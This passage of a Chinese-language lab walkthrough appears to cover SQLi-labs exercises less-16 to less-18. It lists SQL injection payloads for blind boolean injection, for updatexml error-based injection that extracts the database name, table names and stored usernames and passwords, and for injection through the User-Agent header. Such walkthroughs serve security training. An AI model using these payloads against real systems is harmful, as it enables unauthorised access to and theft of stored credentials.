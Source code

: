 #### 考点：布尔/时间盲注

#### 思路：

与13题一样，只是闭合符号不一样

**payload**

```
uname=1" or ascii(substr(payload,1,1))>112%23
&passwd=1&submit=Submit
```



### less-17

#### 考点：update()的报错注入

#### 思路：

**payload**

```
uname=admin&passwd=1' or updatexml(1,concat('~',payload,'~'),0) or '&submit=Submit

uname=admin&passwd=1' or updatexml(1,concat('~',database(),'~'),0) or '&submit=Submit		//爆库名

uname=admin&passwd=11' and  updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) or '&submit=Submit
//爆表名

uname=admin&passwd=11' and  updatexml(1,concat(0x7e,(select (concat_ws('-',username,password)) from pikachu.users limit 0,1),0x7e),1) or '&submit=Submit	//爆值
```



### less-18

#### 考点：http头部POST注入

#### 思路：

报错型，单引号，user-agent型注入点，直接bp抓包

**payload**

```
qing' or updatexml(1,concat('~',(payload),'~'),1) or '

qing' or updatexml(1,concat('~',(database()),'~'),1) or '
```



### less-19
